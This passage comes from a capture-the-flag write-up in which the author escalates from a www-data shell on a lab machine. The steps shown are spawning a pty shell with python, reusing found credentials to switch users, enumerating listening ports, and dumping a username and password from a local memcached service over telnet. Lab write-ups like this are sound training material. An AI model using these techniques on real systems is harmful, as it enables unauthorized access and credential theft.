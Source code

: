 We are currently www-data so I browse to the /home direcotry and see 2 users ash and luffy. First lets spawn a better shell with `python3 -c 'import pty;pty.spawn("/bin/bash")`

Now we have a tty shell we can try to switch to the ash user using the credentials we found inside the javascript in the beginning. Fair enough the creds worked and now we can get the user flag. 

Something tells me that we will need to get the luffy user before we get root. Anyway I perform the usual checks like `sudo -l` which told me that user ash is not allowed to use sudo. Next I to find services which are listening. 

```
netstat -aon
netstat -aon
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      1 10.10.10.188:55882      8.8.4.4:53              SYN_SENT    on (0.35/0/0)
tcp        0      0 10.10.10.188:60644      10.10.14.28:1111        ESTABLISHED off (0.00/0/0)
tcp        0      0 127.0.0.1:11211         127.0.0.1:55042         TIME_WAIT   timewait (35.35/0/0)
tcp        0      0 10.10.10.188:60702      10.10.14.28:1111        ESTABLISHED off (0.00/0/0)
tcp        0     14 10.10.10.188:32876      10.10.14.8:1234         ESTABLISHED on (0.81/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)

--snip--
```

I start googling all the port which have the word "LISTEN" in front of them. I find a service whose name resembles with the name of the box. The service is known as "Memcached". This service as the name suggests, stores all the data for database driven websites inside the RAM so that the data does not have to be retrieved again and again. I find how to enumerate/interact with this service and I do find [an article](https://www.hackingarticles.in/penetration-testing-on-memcached-server/).

Following along was pretty easy. Take a look.

```
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
version
VERSION 1.5.6 Ubuntu
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

